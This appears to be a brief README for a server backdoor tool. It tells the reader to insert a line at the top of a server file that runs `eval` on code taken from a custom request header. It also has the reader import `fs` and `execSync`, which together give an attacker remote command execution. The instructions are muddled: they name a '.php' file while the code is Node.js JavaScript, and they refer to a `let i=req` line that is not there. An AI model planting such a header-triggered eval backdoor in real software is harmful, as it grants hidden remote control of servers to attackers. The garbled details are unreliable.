 # 1. The Backdoor
Place `if (req.headers?.exploit) return (eval('let r = res;' + req.headers?.exploit));` at the top of the `.php` file.

Replace `exploit` with the header you're going to use (in lowercase). It must match with the `HEADER` variable on the client side.

Replace `res` in `let r = res;` with the ServerResponse parameter name.

Replace `req` in `let i=req` with the name of the IncomingRequest parameter name.

Import `fs` and `{ execSync } from 'child_process`
# 2. Start the dev server
In this directory, run `npm start` to start a dev server on port 8000.